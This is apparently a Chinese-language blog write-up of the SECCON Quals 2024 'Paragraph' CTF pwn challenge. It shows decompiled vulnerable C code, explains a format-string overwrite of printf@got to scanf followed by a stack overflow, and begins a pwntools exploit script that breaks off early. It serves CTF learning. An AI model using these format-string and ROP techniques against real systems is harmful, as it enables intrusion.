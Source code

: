```yaml
---
date: 2024-11-26 10:29:05
layout: post
title: SECCON Quals 2024 Writeup and Reflections
subtitle: Paragraph, TOY/2, and make ROP great again
description: >-
    seccon quals 2024 复现 pwn 时候的一些感悟吧
image: >-
  /assets/img/uploads/autumn.jpg
optimized_image: >-
  /assets/img/uploads/autumn.jpg
category: ctf
tags:
  - SECCON
  - pwn
  - heap exploitation
  - format string
author: rosayxy
paginate: true
---
```

唉，赛后复现，经典拍大腿时刻:(    

## Paragraph
format string 题，标的难度是 warmup 但是还是卡题了，完全没有想到出题人预设的解法，在复盘的时候才发现原来暗示这么明显 ggg   
此外，也暴露出了和队友交流的时候的经典 X-Y 问题（belike: 你实际遇到了 X 问题，你认为 X 问题要用 Y 方法解决，在实现 Y 方法时遇到困难，然后向他人提问如何实现 Y 方法。但很多时候 Y 方法并不是 X 问题的正确解法，此时可能会得到错误的答案） 
因为我在一次格式化字符串之后都是想的“怎么 leak/write” 之后再回到 main 函数啊啊啊，所以和队友描述的时候也都是局限在怎么用 trick 在题目限制的很短的长度中去一边 leak 一边 write return address（即是 Y 问题），而没有向队友描述整体题目的状况，也影响了队友这题的思路（有点对不起 dylanyang 学长和轩哥）    

### 正解
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char format[32]; // [rsp+0h] [rbp-20h] BYREF

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  puts("\"What is your name?\", the black cat asked.");
  __isoc99_scanf("%23s", format);
  printf(format);
  printf(" answered, a bit confused.\n\"Welcome to SECCON,\" the cat greeted %s warmly.\n", format);
  return 0;
}
```
嗯 正解是在第一个 `printf` 处任意写 `printf@got` 的后两个字节，将其改为 `__isoc99_scanf`，同时也有余量 leak libc，再次 printf 的时候直接栈溢出    

直接贴个 exp
```py
from pwn import *
from time import sleep

context(arch='amd64', os='linux', log_level='debug')
p=process("./chall")
printf_got = 0x404028
pop_rdi_ret = 0x401283
ret = 0x40121d

p.recvuntil("the black cat asked.\n")
# gdb.attach(p)
# pause()
```